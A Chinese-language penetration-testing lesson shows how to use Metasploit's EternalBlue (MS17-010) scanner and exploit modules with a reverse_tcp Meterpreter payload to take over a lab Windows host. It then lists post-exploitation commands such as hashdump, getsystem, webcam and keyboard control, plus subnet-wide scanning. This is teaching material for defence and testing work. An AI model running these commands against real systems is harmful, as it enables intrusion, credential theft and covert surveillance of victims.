# 网络安全教程：P65：使用MSF攻击获取Meterpreter会话



在本节课中，我们将学习如何使用Metasploit Framework（MSF）对存在永恒之蓝（MS17-010）漏洞的目标进行攻击，并最终获取一个Meterpreter会话。Meterpreter是MSF中一个功能强大的后渗透工具，它允许我们在成功入侵目标后执行各种操作。

上一节我们介绍了MSF的基本框架和模块概念，本节中我们来看看如何利用一个具体的漏洞模块发起攻击。





## 攻击目标与流程概述

MSF攻击的最终目的是获取Meterpreter会话。无论使用MSF进行何种渗透，最终目标都是拿到Meterpreter以进行后续的渗透操作。

为了演示完整的MSF攻击流程，我们将以经典的永恒之蓝（MS17-010）漏洞为例。这是一个非常常用且简单的攻击模块。

## 第一步：漏洞扫描与确认

首先，我们需要进入MSF控制台，并搜索与MS17-010相关的模块。

```bash
msfconsole
search ms17-010
```

执行搜索后，通常会看到两类模块：辅助（auxiliary）模块和攻击（exploit）模块。辅助模块用于检测目标机器是否存在该漏洞。





以下是使用辅助扫描模块的步骤：

1.  使用辅助模块 `auxiliary/scanner/smb/smb_ms17_010`。
2.  查看模块配置选项，通常目标端口（RHOSTS）已预设为445。
3.  设置目标机器的IP地址（RHOSTS）。
4.  可选设置线程数（THREADS）或凭据（USERNAME, PASSWORD）。
5.  运行扫描。

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.131
run
```

如果扫描结果显示“主机似乎存在MS17-010漏洞”，则确认目标存在漏洞，可以进入下一步攻击阶段。

## 第二步：利用漏洞发起攻击

确认漏洞存在后，我们需要使用攻击（exploit）模块。在之前的搜索结果中，选择如 `exploit/windows/smb/ms17_010_eternalblue` 这样的模块。

以下是发起攻击的步骤：

1.  使用选定的攻击模块。
2.  查看并设置模块选项（`show options`）。关键选项包括：
    *   `RHOSTS`: 目标机器IP地址。
    *   `LHOST`: 攻击者（本机）IP地址。
    *   `LPORT`: 攻击者监听的端口（用于接收反弹连接）。
3.  设置攻击载荷（Payload）。通常使用 `windows/meterpreter/reverse_tcp`，它会在攻击者机器上开启监听，等待目标机器反向连接。
4.  执行攻击（`exploit`）。



```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.131
set LHOST 192.168.1.100
set LPORT 4444
exploit
```



攻击成功后，MSF控制台会显示已建立Meterpreter会话，命令行提示符会变为 `meterpreter >`。



## 第三步：Meterpreter后渗透操作

成功获取Meterpreter会话意味着我们已经控制了目标机器。Meterpreter提供了丰富的命令用于后渗透阶段。输入 `help` 或 `?` 可以查看所有可用命令。



以下是Meterpreter的主要功能分类：

*   **核心指令**：如 `background`（将会话置于后台）、`sessions`（管理会话）等。
*   **文件系统命令**：用于浏览、上传、下载、编辑目标机器上的文件。
*   **网络命令**：用于查看网络配置、端口、设置路由或代理。
*   **系统命令**：用于执行系统操作，如获取系统信息、结束进程、关机等。
*   **用户界面命令**：用于监控或控制目标机器的键盘、鼠标，或进行屏幕截图。
*   **Webcam命令**：用于控制目标机器的摄像头进行拍照、录像或开启视频流。
*   **权限提升命令**：如 `getsystem`，用于尝试提升权限。
*   **密码哈希获取命令**：如 `hashdump`，用于获取系统密码哈希。

例如，我们可以执行以下操作：

```bash
# 执行目标机器的系统命令
shell
whoami
exit



# 将当前Meterpreter会话切换到后台
background



# 列出所有活跃会话
sessions -l

# 重新进入指定会话（例如会话1）
sessions -i 1
```



如果通过其他方式获得的会话不是Meterpreter类型，可以使用 `sessions -u [会话ID]` 命令尝试升级到Meterpreter会话。

## 关于永恒之蓝漏洞的补充说明

永恒之蓝（MS17-010）是一个已被广泛修补的漏洞，在公网或云服务器上已很难见到。但它在内网环境中，尤其是一些未及时更新补丁的老旧系统（如某些Windows 7、Windows Server 2008等）中可能仍然存在。在内网渗透测试中，它仍是一个有效的攻击向量。

扫描时，可以将 `RHOSTS` 设置为一个网段，以探测整个内网中存在漏洞的主机：

```bash
set RHOSTS 192.168.24.0/24
set THREADS 20
run
```

## 常用MSF命令回顾



在整个攻击流程中，我们用到了一些核心的MSF命令：

*   `search [关键词]`: 搜索模块。
*   `use [模块路径]`: 使用某个模块。
*   `show options`: 显示当前模块的可设置选项。
*   `set [选项名] [值]`: 设置选项值。
*   `run` / `exploit`: 运行辅助模块或发起攻击。
*   `sessions`: 管理已建立的会话。
*   `info`: 显示模块的详细信息。



本节课中我们一起学习了使用MSF对存在永恒之蓝漏洞的目标发起攻击的完整流程：从搜索模块、扫描确认漏洞，到配置并执行攻击模块获取Meterpreter会话，最后简要介绍了Meterpreter的强大后渗透功能。掌握这个流程是理解MSF自动化渗透测试的基础。